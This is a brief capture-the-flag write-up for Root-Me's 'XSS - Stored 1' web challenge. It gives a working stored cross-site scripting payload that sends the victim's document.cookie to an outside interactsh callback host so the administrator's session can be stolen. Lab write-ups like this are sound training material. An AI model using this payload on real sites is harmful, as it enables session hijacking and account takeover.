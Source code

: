 # XSS stored 1

[root-me challenge XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1): Steal the administrator session cookie and use it to validate the challenge.

----

Using [app.interactsh.com](https://app.interactsh.com), use whatever title, and message (change `src` to whatever OAST app you are using):

```text
<script>document.write("<img src='https://cgn1cqt2vtc0000xbc8ggekoscryyyyyb.oast.fun?="+document.cookie+"'></img>");</script>
```
